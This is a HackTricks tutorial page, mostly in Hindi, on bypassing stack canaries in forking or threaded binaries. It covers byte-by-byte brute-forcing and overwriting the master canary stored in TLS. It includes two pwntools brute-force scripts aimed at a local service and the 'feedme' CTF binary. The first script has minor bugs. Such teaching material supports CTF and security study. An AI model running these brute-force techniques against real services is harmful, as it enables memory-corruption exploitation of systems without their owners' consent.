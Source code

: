 # BF Forked & Threaded Stack Canaries

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**यदि आप एक बाइनरी का सामना कर रहे हैं जो एक कैनरी और PIE (पोजीशन इंडिपेंडेंट एक्सीक्यूटेबल) द्वारा सुरक्षित है, तो आपको शायद उन्हें बायपास करने का एक तरीका खोजने की आवश्यकता है।**

![](<../../../.gitbook/assets/image (865).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पहचान सकता है कि एक बाइनरी कैनरी द्वारा सुरक्षित है यदि इसे स्थिर रूप से संकलित किया गया है और यह फ़ंक्शन की पहचान करने में असमर्थ है।\
हालांकि, आप इसे मैन्युअल रूप से देख सकते हैं यदि आप पाते हैं कि एक मान फ़ंक्शन कॉल की शुरुआत में स्टैक में सहेजा गया है और इस मान की जांच निकासी से पहले की जाती है।
{% endhint %}

## ब्रूट फोर्स कैनरी

एक साधारण कैनरी को बायपास करने का सबसे अच्छा तरीका है यदि बाइनरी एक प्रोग्राम है जो **हर बार जब आप इसके साथ एक नया कनेक्शन स्थापित करते हैं तो चाइल्ड प्रोसेस को फोर्क करता है** (नेटवर्क सेवा), क्योंकि हर बार जब आप इससे कनेक्ट होते हैं **तो वही कैनरी का उपयोग किया जाएगा**।

फिर, कैनरी को बायपास करने का सबसे अच्छा तरीका है बस इसे **चर द्वारा चर ब्रूट-फोर्स करना**, और आप यह पता लगा सकते हैं कि क्या अनुमानित कैनरी बाइट सही थी यह जांचकर कि क्या प्रोग्राम क्रैश हुआ है या अपनी नियमित धारा जारी रखता है। इस उदाहरण में फ़ंक्शन **8 बाइट्स कैनरी (x64)** को ब्रूट-फोर्स करता है और एक सही अनुमानित बाइट और एक खराब बाइट के बीच अंतर करता है बस **जांचकर** कि क्या सर्वर द्वारा एक **प्रतिक्रिया** वापस भेजी गई है (दूसरी स्थिति में **अन्य तरीके** हो सकते हैं जैसे **try/except** का उपयोग करना):

### उदाहरण 1

यह उदाहरण 64 बिट्स के लिए लागू किया गया है लेकिन इसे 32 बिट्स के लिए आसानी से लागू किया जा सकता है।
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
### Example 2

यह 32 बिट्स के लिए लागू किया गया है, लेकिन इसे आसानी से 64 बिट्स में बदला जा सकता है।\
इसके अलावा, इस उदाहरण के लिए **कार्यक्रम ने पहले इनपुट के आकार को इंगित करने के लिए एक बाइट की अपेक्षा की** और पेलोड।
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
## Threads

एक ही प्रक्रिया के थ्रेड भी **एक ही कैनरी टोकन** साझा करेंगे, इसलिए यह संभव होगा कि यदि बाइनरी हर बार हमले के होने पर एक नया थ्रेड उत्पन्न करती है तो **कैनरी को ब्रूट-फोर्स** किया जा सके।&#x20;

इसके अलावा, एक थ्रेडेड फ़ंक्शन में **बफर ओवरफ्लो** जो कैनरी से सुरक्षित है, का उपयोग **TLS में संग्रहीत मास्टर कैनरी को संशोधित करने** के लिए किया जा सकता है। इसका कारण यह है कि, यह संभव हो सकता है कि थ्रेड के **स्टैक** में एक **bof** के माध्यम से उस मेमोरी स्थिति तक पहुँचा जा सके जहाँ TLS संग्रहीत है (और इसलिए, कैनरी)।\
इसके परिणामस्वरूप, यह शमन बेकार है क्योंकि जांच दो समान (हालांकि संशोधित) कैनरी के साथ की जाती है।\
यह हमला इस लेख में किया गया है: [http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads](http://7rocky.github.io/en/ctf/htb-challenges/pwn/robot-factory/#canaries-and-threads)

इसके अलावा, [https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015](https://www.slideshare.net/codeblue\_jp/master-canary-forging-by-yuki-koike-code-blue-2015) की प्रस्तुति देखें जो बताती है कि आमतौर पर **TLS** को **`mmap`** द्वारा संग्रहीत किया जाता है और जब एक **थ्रेड** का **स्टैक** बनाया जाता है तो यह भी `mmap` द्वारा उत्पन्न होता है, जो पिछले लेख में दिखाए गए ओवरफ्लो की अनुमति दे सकता है।

## Other examples & references

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
* 64 bits, no PIE, nx, BF canary, write in some memory a ROP to call `execve` and jump there.
